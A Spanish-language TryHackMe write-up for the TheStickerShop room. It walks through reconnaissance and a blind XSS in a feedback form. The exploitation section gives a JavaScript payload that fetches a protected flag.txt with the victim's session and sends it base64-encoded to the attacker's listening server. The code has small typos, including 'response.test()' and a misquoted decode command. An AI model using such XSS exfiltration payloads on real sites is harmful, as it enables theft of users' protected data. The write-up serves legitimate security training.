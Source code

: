 ```yaml
---
title: TheStickerShop - TryHackMe
published: 2024-12-05
description: 'En este WriteUp se analizó un servidor con los puertos 22/tcp (SSH) y 8080/tcp (HTTP) abiertos. Si bien no se detectaron vulnerabilidades en el servicio SSH, en el servidor web por otro lado se identificó una vulnerabilidad de XSS (Cross-Site Scripting) en el formulario de la sección Feedback, que permitió ejecutar código JavaScript malicioso en el navegador. Esto se explotó para realizar data exfiltration del archivo protegido flag.txt'
image: '../../../assets/TryHackMe/TheStickerShop/thestickershop-banner.png'
tags: [TryHackMe, ReadTeam, Pentesting, HTTP, XSS, Data Exfiltration, Linux]
category: 'WriteUp'
draft: false 
---
```


## Introduction

En este WriteUp de la máquina TheStickerShop de la plataforma de **[TryHackMe](https://tryhackme.com)** se analizó un servidor con los puertos **22/tcp (SSH)** y **8080/tcp (HTTP)** abiertos. Si bien no se detectaron vulnerabilidades en el servicio SSH, en el servidor web por otro lado se identificó una vulnerabilidad de **XSS (Cross-Site Scripting)** en el formulario de la sección `Feedback`, que permitió ejecutar código JavaScript malicioso en el navegador. Esto se explotó para realizar **data exfiltration** del archivo protegido `flag.txt`.

~~~
Platform: TryHackMe
Level: Easy
OS: Linux
~~~

## Reconnaissance

~~~
Target IP: 10.10.127.143
~~~

>  La tienda local de pegatinas finalmente ha desarrollado su propia página web. No tienen demasiada experiencia con respecto al desarrollo web, por lo que decidieron desarrollar y alojar todo en la misma computadora que usan para navegar por Internet y observar los comentarios de los clientes. ¡Movimiento inteligente!
> 
> Puedes leer la bandera en `http://10.10.127.143:8080/flag.txt`?

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-0.png)

Comenzamos con el comando **ping**, que utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Este comando envía un mensaje de “echo request” a una dirección IP y espera recibir un mensaje de “echo response”. Este proceso permite verificar si una máquina en la red es accesible y medir la latencia. Además, se puede inferir que es una máquina **Linux** debido al **TTL = 63**

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-1.png)

## Scanning

El paquete fue recibido correctamente por la máquina objetivo. Verificada la conexión, realizamos un escaneo de múltiples etapas con la herramienta **Nmap**. Primero, identificamos los puertos abiertos:

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-2.png)

Se encontraron los puertos abiertos **22/tcp** y **8080/tcp**. A continuación, realizamos un escaneo más detallado utilizando la la flag `-sCV` para obtener más información de los puertos:

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-3.png)

## Enumeration

### 22/tcp SSH

El puerto **22/tcp** ejecuta el servicio `OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)`.

- No se identificaron vulnerabilidades conocidas en esta versión del servicio.
- Este puerto fue descartado como vector de ataque para esta etapa.

### 8080/tcp HTTP

El puerto **8080/tcp** aloja un servidor web identificado como `http-proxy Werkzeug/3.0.1 Python/3.9.10`.

- Al navegar a la URL principal, encontramos un sitio web dedicado a la venta de stickers de gatos.
- La página presenta dos secciones principales: `Home` y `Feedback`.

Al acceder a la sección `Home` no se observaron elementos interactivos relevantes ni indicios de vulnerabilidades explotables.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-4.png)

Al acceder a la sección `Feedback` se muestra un formulario que permite a los usuarios enviar comentarios.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-5.png)

Al intentar acceder a la URL `http://10.10.127.143:8080/flag.txt` devolvió un error **401 Unauthorized**, lo que indica que el acceso al archivo está restringido.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-6.png)

En el formulario de la sección `Feedback` exploramos posibles vulnerabilidades. En particular **Cross-Site Scripting (XSS)**, dado que los formularios son un vector común para este tipo de ataque.

En primer lugar, niciamos un servidor HTTP en el puerto **80** de nuestra máquina atacante para recibir posibles solicitudes: `sudo python3 -m http.server 80`

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-7.png)

Luego, en el formulario de `Feedback`, enviamos el siguiente payload: `<img src="http://10.21.66.133/test">`. Este código intenta cargar una imagen desde nuestro servidor. Si el navegador del objetivo procesa el payload, el servidor HTTP recibiría una solicitud GET.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-8.png)

Al verificar el servidor de escucha, se observó una solicitud entrante, lo que confirma que el payload fue ejecutado exitosamente por el navegador de la víctima.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-9.png)

## Exploitation

Confirmada la vulnerabilidad, utilizamos un payload más avanzado para extraer el contenido del archivo `flag.txt` y enviarlo a nuestro servidor:

~~~JS
<script>
	fetch("/flag.txt", { method: 'GET', mode: 'no-cors', credentials: 'same-origin'})
		.then(response => response.test())
		.then(data => {
			let img = new Image();
			img.src = "http://10.21.66.133:80/" + btoa(data);
		});
</script>
~~~

- `fetch("/flag.txt", {...})`
    - Solicita el archivo `flag.txt` utilizando las credenciales de la sesión activa del navegador.
    - El modo `'no-cors'` evita restricciones relacionadas con políticas de origen cruzado, permitiendo que la solicitud sea procesada por el servidor.
- `.then(response => response.text())`
    - Convierte la respuesta obtenida (el contenido del archivo) en texto legible.
- `btoa(data)`
    - Codifica el texto en Base64 para evitar problemas al enviarlo como parte de una URL.
- `let img = new Image(); img.src = "http://10.21.66.133:80/" + btoa(data);`
    - Crea un objeto de imagen que realiza una solicitud GET a nuestro servidor con el contenido codificado como parte de la URL.
    - Este enfoque garantiza que los datos extraídos sean enviados a nuestro servidor incluso con restricciones de CORS.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-10.png)

Al ejecutar el payload, nuestro servidor recibió una solicitud con el contenido del archivo `flag.txt` codificado en Base64.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-11.png)

Decodificamos el contenido usando el siguiente comando: `echo "<TEXTO EN BASE64> | base64 --decode"`  

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-12.png)

Una vez decodificado el texto, nos devuelve la flag. Completado el objetivo hemos finalizado la máquina y por ende hemos terminado.
